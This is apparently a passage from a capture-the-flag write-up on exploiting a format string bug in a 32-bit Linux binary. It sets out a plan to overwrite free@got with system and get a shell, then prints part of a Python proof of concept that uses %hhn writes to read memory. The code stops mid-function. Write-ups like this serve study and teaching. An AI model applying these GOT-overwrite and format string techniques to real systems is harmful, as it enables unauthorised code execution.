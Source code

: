 ```

0xb7e30588 0x3063
__libc_system
Enter your name:
[!] found system!0x3fcd0 0xb7e69cd0
```

We had the address of system! Now, the plan of attack was as follows:

- write `/bin/sh` to 0x13373008, which gets used in a free() call
- overwrite free@got with system
- set strcmp to the `xor eax, eax; ret` gadget
- receive shell

This *almost* worked out, but we set strcmp to 0xb7f61f60 and that turned out to be enough. We landed a shell!

The poc we used:

```python
import socket, struct, telnetlib, time
from pwn import *

context(arch='i386', os='linux')
def p(x):
        return struct.pack('<I', x)

def read1(address):
    conn.send("%64c%25$hhn")           # 0xbffff940
    conn.recv(200)
    conn.send("%"+str(256)+"c%61$hhn")           # set byte at 0xbf..40 to '3c'
    conn.recv(300)
    
    if (address & 0xff):
        conn.send("%64c%25$hhn")           # 0xbffff940
        conn.recv(200)
        conn.send("%"+str(address & 0xff)+"c%61$hhn")           # set byte at 0xbf..40 to '3c'
        conn.recv(300)

    conn.send("%65c%25$hhn")           # next byte, 0xbffff941
    conn.recv(200)
    conn.send("%"+str((address >> 8) & 0xff)+"c%61$hhn")           # set byte at 0xbf..41 to '20'
    conn.recv(300)

    conn.send("%66c%25$hhn")           # next byte, 0xbffff942
    conn.recv(200)
    conn.send("%"+str((address >> 16) & 0xff)+"c%61$hhn")           # set byte at 0xbf..42 to '37'
    conn.recv(300)

    conn.send("%67c%25$hhn")           # final byte, 0xbffff943
    conn.recv(200)
    conn.send("%"+str((address >> 24) & 0xff)+"c%61$hhn")           # set byte at 0xbf..43 to '13'
    conn.recv(300)

    conn.send("%124$s")
    
    data = conn.recv(200)
    if data[4:7] == 'Ent':
        return 0
    return ord(data[3:4])

def read4(address):
    value = 0
    for i in range(4):
        #value <<= 8
```